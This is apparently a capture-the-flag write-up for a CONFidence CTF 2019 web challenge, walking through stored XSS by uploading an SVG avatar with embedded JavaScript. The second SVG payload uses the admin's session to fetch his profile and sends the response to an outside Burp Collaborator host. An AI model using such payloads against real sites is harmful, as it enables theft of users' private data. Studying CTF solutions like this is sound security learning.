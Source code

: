 
Teaser CONFidence CTF 2019: Web 50
==================================

Challenge description:

	idk what this site does, but you can put some secret, shoe size and report it to the admin...

We are given a URL. When we visit it we find the following screen:

![](/1.png?raw=true)

It seems to be a user and password. Let's try some random values, like `fabada`/`fabada123` and submit the form. 

Apparently we're in:

![](/2.png?raw=true)

Let's check the Profile section:

![](/3.png?raw=true)

Here we can set some values that will be stored at the server with a POST to `/profile/fabada`. We try clearing cookies and logging in again, and we find that the values are kept. Therefore, we effectively created an account at the platform, and our profile can be found at `/profile/<USERNAME>`. Interestingly enough we can upload some file as the avatar, we'll keep an eye out for that...

Let's now check the Report section:

![](/4.png?raw=true)

We found that in this screen we can submit a URL from this domain. Actually not every single one, but profiles are allowed. We try sending our own profile and we get the following response:

![](/5.png?raw=true)

Mmh do we now what that means? Starts sounding like a client-side attack... We can probably make the admin visit our own profile. Talking about `admin`, let's try and see if he has his own profile:

![](/6.png?raw=true)

Yes he does! But we don't get the option to edit any field as with our own profile (obviously). We try with another account to check our own profile, and we confirm that that's how profiles for other users are displayed.

Let's now look for the client side attack. Back to our own profile, we try several XSS payloads in the different fields. In the end, found an attack vector by uploading an SVG with embedded Javascript (size needs to be 100x100, as pointed out by the returned error if we try other sizes, so we directly grabbed one from Google Images):

```
<?xml version="1.0" encoding="UTF-8"?> <svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" id="Layer_1" x="0px" y="0px" width="100px" height="100px" viewBox="-12.5 -12.5 100 100" xml:space="preserve"> 
  ...
  <g>
    <polygon fill="#00B0D9" points="41.5,40 38.7,39.2 38.7,47.1 41.5,47.1 "></polygon>
    <script type="text/javascript">
      alert('XSS!');
    </script>
  </g>
  ...
</svg>

```

After uploading the image, the profile is shown and nothing happens:

![](/7.png?raw=true)

Visiting the image's URL, however...

![](/8.png?raw=true)

Nice! Hopefully we can submit this for the admin to check out? Yes we can. The full URL we send is something of the sort:

`http://web50.zajebistyc.tf/avatar/82b956e443066b3179e9493507c12344a87585d36d3aa92ae02710b1f1d1da5f/fabada_avatar.svg`

![](/5.png?raw=true)

How can we leverage this to compromise the admin? We tried two failed approaches:

1. Send ourselves some `document.cookies` from the admin? Nope, the session cookie is HttpOnly.
2. Within the XSS payload, trigger an authenticated POST request to `/profile/admin` modifying the `secret` parameter. We believed that was the password, and therefore we could take over the admin account. We then found out that was not the case... Maybe `secret` is the flag itself for the `admin` user!

We then realized that maybe we could trigger a GET request to `/profile/admin` from the admin's browser obtaining the profile's "full version" including the secret. We could then redirect the response to this request to our own server (in this case, we used Burp Collaborator).

The payload:

```
<?xml version="1.0" encoding="UTF-8"?> <svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" id="Layer_1" x="0px" y="0px" width="100px" height="100px" viewBox="-12.5 -12.5 100 100" xml:space="preserve"> 
  ...
  <g>
    <polygon fill="#00B0D9" points="41.5,40 38.7,39.2 38.7,47.1 41.5,47.1 "></polygon>
    <script type="text/javascript">
      var xhr = new XMLHttpRequest();
      xhr.onreadystatechange = function() {
        if (xhr.readyState === 4) {
          var xhr2 = new XMLHttpRequest();
          xhr2.open("POST", "http://XXXX.burpcollaborator.net/");
          xhr2.send(xhr.responseText);
        }
      }   
      xhr.open("GET", "http://web50.zajebistyc.tf/profile/admin");
      xhr.withCredentials = true;
      xhr.send();
    </script>
  </g>
  ...
</svg>

```

After reporting the URL of the new uploaded malicious SVG, a request was received by the Collaborator which included the flag!

![](/9.png?raw=true)


